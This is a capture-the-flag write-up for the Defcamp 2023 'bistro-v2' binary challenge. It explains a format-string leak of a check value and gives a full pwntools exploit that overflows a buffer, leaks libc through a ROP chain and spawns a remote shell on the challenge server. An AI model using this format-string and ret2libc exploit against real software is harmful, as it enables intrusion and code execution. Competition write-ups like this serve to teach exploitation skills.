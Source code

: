 ```yaml
---
title: bistro-v2
date: 2023-10-22T09:56:31+03:00
description: Writeup for bistro-v2 [Defcamp Quals 2023]
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Maybe you can get a free menu!!

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec restaurant-v2
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   82 Symbols	  No	0		4		restaurant-v2
```
It's the same binary as in ``bistro``, but with an added function that checks a "code". Let's check it:

```c
int main(int argc,char **argv)
{
  int iVar1;
  ssize_t sVar2;
  undefined4 in_register_0000003c;
  char **argv-local;
  int argc-local;
  int not_flag;
  int flag;
  int fd;
  
  init((EVP_PKEY_CTX *)CONCAT44(in_register_0000003c,argc));
  fd = open("/dev/urandom",0);
  if (fd == -1) {
    puts("Open failed");
    iVar1 = -1;
  }
  else {
    sVar2 = read(fd,&flag,4);
    if (sVar2 == 4) {
      close(fd);
      puts("Wellcome to the restaurant V2!");
      fflush(stdout);
      fgets(buff,0x400,stdin);
      printf(buff);
      puts("Show me your ticket to pass: ");
      fflush(stdout);
      __isoc99_scanf("%x",&not_flag);
      if (flag == not_flag) {
        restaurant();
      }
      else {
        puts("Permission denied!\n");
      }
      iVar1 = 0;
    }
    else {
      puts("Read failed\n");
      iVar1 = -1;
    }
  }
  return iVar1;
}
```
So we just need to leak it with the vulnerable printf and write it correctly to pass the check. Then we run the same script as before but with some addresses changed.

### Solution

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./restaurant")
target = remote("34.107.4.232", 31399)

# Found with ROPGadget
pop_rdi = p64(0x0000000000400b33)
ret = p64(0x00000000004006ae) # align stack to 16-bytes again for system call

# Found in the binary
main_addr = p64(0x0040088a)
puts_plt = p64(0x004006c0)
puts_got = p64(0x00602018)

# Leak the real code
target.sendline(b"%9$x")
code_leak = target.recvuntil(b"Show me your ticket to pass: ").split(b'\n')[1]

# Send it when the binary asks for the ticket
print(code_leak)
target.sendline(code_leak)

# Same exploit as in bistro, check that writeup
target.sendline(b"3")
payload = b"a" * 0x78 + pop_rdi + puts_got + puts_plt + main_addr # go back to main for more inputs
target.sendline(payload)
print(target.recvuntil(b">>"))
print(target.recvline())
puts_leak = u64(target.recvline().strip().split(b':')[1].ljust(8, b'\x00'))
print(puts_leak)
print(hex(puts_leak))

system_addr = p64(puts_leak - 202064)
print(system_addr)

sh_addr = p64(puts_leak + 0x133418)

payload = b"a" * 0x78 + ret + pop_rdi + sh_addr + system_addr

target.sendline(payload)
target.interactive()
```

#### Flag

```CTF{04134a331cd5bed41dc418c04854ac3fd7e03148f0e61d74d61508f19b7c5933}```
